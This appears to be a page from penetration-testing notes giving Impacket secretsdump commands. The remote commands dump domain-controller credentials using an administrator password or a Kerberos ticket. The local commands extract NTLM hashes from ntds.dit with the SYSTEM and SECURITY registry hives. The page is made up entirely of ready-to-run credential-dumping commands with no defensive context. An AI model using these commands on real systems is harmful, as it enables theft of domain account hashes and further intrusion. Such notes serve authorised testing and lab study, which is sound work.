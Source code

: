 # Secretdump.py

## Remote

{% code overflow="wrap" %}
```bash
# With password 
secretsdump.py contoso.local/Administrator:Password0-@<DC IP Address> -output secretsdump_contoso_local

# With Kerberos ticket
impacket-secretsdump -no -k dc01.rebound.htb -just-dc-user administrator
```
{% endcode %}

## Local

{% code overflow="wrap" %}
```bash
# -ntds: ntds.dit
# -system: SYSTEM file
secretsdump.py -ntds ntds.dit -system ../registry/SYSTEM -hashes lmhash:nthash LOCAL -outputfile ntlm-extract

# -security: SECURITY file
impacket-secretsdump -system SYSTEM -security SECURITY -ntds ntds.dit local 
```
{% endcode %}

